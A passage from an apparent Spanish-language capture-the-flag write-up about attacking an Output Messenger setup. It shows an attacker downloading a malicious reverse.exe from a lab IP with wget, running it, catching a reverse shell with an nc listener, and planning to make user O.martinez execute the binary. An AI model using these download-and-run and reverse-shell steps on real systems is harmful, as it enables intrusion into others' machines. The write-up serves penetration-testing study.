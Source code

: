 Desde el equipo Windows (atacante) el cual hemos instalado el `Output Messenger`, procederemos a descargar el binario malicioso y lo ejecutaremos.

```powershell
PS C:\temp> wget 192.168.249.128/reverse.exe -o reverse.exe
PS C:\temp> ls

    Directory: C:\temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/18/2025  12:57 AM          28160 reverse.exe

PS C:\temp> .\reverse.exe
```

Vemos que funciona la `reverse.exe`, pero al ejecutarlo nosotros manualmente, el usuario que recibimos es el de nuestra máquina Windows (atacante).

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [192.168.249.129] 53306
Microsoft Windows [Version 10.0.19045.5371]
(c) Microsoft Corporation. All rights reserved.

C:\temp>whoami
whoami
w10\gzzcoo

C:\temp>
```

Por lo tanto, el objetivo será crear un  nuevo evento para intentar y verificar si el usuario `O.martinez` es capaz de ejecutar el binario malicioso `reverse.exe` correctamente  y obtener una Shell con ese usuario.

<figure><img src="../../.gitbook/assets/imagen (26) (1) (1).png" alt=""><figcaption></figcaption></figure>
